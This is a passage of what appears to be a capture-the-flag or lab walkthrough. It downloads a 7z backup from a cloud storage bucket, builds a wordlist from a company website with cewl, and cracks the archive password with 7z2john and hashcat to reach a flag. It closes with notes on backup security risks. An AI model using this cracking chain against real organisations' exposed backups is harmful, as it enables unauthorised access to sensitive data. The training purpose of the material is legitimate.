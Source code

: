 4. **Downloading and Cracking the Backup**
    *   Download `backup.7z`:
        ```bash
        gsutil cp gs://it-storage-bucket/backup.7z .
        ```
    *   Install `7zip`:
        ```bash
        sudo apt install p7zip-full p7zip-rar
        ```
    *   Generate custom wordlist with `cewl`:
        ```bash
        sudo apt install cewl
        cewl https://careers.gigantic-retail.com/index.html > wordlist.txt
        ```
    *   Install `7z2john.pl`:
        ```bash
        wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/7z2john.pl
        sudo apt install libcompress-raw-lzma-perl -y
        ```
    *   Convert archive for Hashcat:
        ```bash
        perl 7z2john.pl backup.7z > backup.7z.hash
        sed -i 's/backup.7z://' backup.7z.hash
        ```
    *   Find Hashcat mode (11600):
        ```bash
        hashcat --example-hashes | grep -i -B1 7-zip
        ```
    *   Crack the password:
        ```bash
        hashcat -m 11600 backup.7z.hash wordlist.txt
        ```

5. **Extracting the Flag**
    *   Extract the archive:
        ```bash
        7z x backup.7z
        ```
    *   Enter the cracked password when prompted.
    *   Locate the MD5 hash flag within the extracted files.

## New security-focused outcomes:

- Understand why backup files can pose significant security risks if exposed

- Identify common misconfigurations that can lead to unauthorized access to cloud storage

- Learn and implement best practices for secure backup storage and cloud storage security

## Security context:

a. Why backup files are security risks: Explain that backups often contain sensitive data, can be used to restore systems to vulnerable states, and may contain outdated credentials.
    - Backup files pose security risks by containing sensitive data like credentials, configuration details, and business logic. Old backups may retain outdated but valid credentials. Attackers can analyze backup structures to understand system architecture and identify vulnerabilities for targeted attacks.
